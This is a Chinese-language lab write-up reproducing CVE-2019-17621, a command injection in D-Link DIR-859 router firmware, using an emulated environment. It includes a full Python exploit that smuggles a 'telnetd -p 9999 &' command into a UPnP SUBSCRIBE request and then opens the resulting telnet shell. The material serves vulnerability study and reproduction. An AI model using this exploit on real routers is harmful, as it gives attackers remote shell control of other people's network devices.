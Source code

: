 # D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- firmadyne：固件主机：192.168.0.1
- htdocs/cgibin（有漏洞的服务程序）：192.168.0.1:49152
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/binwalk:noentry -> firmianay/firmadyne（或者 firmianay/firmae）`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-firmadyne.yml build
# 或者：docker-compose -f docker-compose-firmae.yml build

# 启动容器
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```text
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- <https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA>
- <https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg>
